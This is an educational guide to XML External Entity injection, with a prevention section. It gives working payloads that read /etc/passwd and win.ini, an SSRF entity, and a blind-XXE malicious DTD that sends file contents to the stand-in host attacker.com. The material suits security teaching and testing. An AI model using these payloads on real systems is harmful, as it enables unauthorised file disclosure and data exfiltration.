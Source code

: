 # XML External Entity (XXE) Injection

XML External Entity (XXE) injection is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the application server's filesystem, and to interact with any backend or external systems that the application itself can access.

## How it Occurs

XXE vulnerabilities arise because the XML specification contains a feature called "external entities," which are a type of custom XML entity whose definition is located outside of the DTD where they are declared. If an application accepts XML input and parses it without disabling external entity resolution, it can be vulnerable to XXE.

### Example

Consider a web application that accepts XML data from the user:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>123</productId>
</stockCheck>
```

An attacker can modify the XML to include an external entity that points to a local file:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
  <productId>&xxe;</productId>
</stockCheck>
```

When the application parses this XML, it will replace `&xxe;` with the content of the `/etc/passwd` file. If the application then displays the product ID in its response, the attacker will be able to see the contents of the file.

## Common Payloads

### Retrieving Files

*   **Linux:** `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>`
*   **Windows:** `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///c:/windows/win.ini"> ]>`

### SSRF via XXE

XXE can be used to perform Server-Side Request Forgery (SSRF) attacks.

*   `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.service/endpoint"> ]>`

### Blind XXE

In some cases, the application does not return the results of the XXE attack in its response. This is known as blind XXE. An attacker can use out-of-band techniques to exfiltrate data.

*   **Exfiltrating data via a DTD:**
    1.  The attacker hosts a malicious DTD on a server they control.
    2.  The attacker sends an XXE payload that references the malicious DTD.
    3.  The application requests the malicious DTD.
    4.  The malicious DTD contains an entity that exfiltrates data from the vulnerable server.

    **Malicious DTD (e.g., `http://attacker.com/malicious.dtd`):**
    ```xml
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker.com/?x=%file;'>">
    %eval;
    %exfiltrate;
    ```

    **XXE Payload:**
    ```xml
    <?xml version="1.0" ?>
    <!DOCTYPE foo [
        <!ENTITY % xxe SYSTEM "http://attacker.com/malicious.dtd">
        %xxe;
    ]>
    <foo></foo>
    ```

## Finding XXE Vulnerabilities

*   Look for any functionality that accepts XML data. This can be in the body of a POST request, or in a file upload.
*   Check if the application is parsing XML. You can often tell by looking at the `Content-Type` header of the request (e.g., `application/xml`, `text/xml`).
*   Try sending a simple XXE payload to see if the application is vulnerable.

## Preventing XXE

The safest way to prevent XXE is to disable DTDs (Document Type Definitions) and external entities completely. This can usually be done in the configuration of the XML parser. If it is not possible to disable DTDs completely, then external entities and external DTDs should be disabled.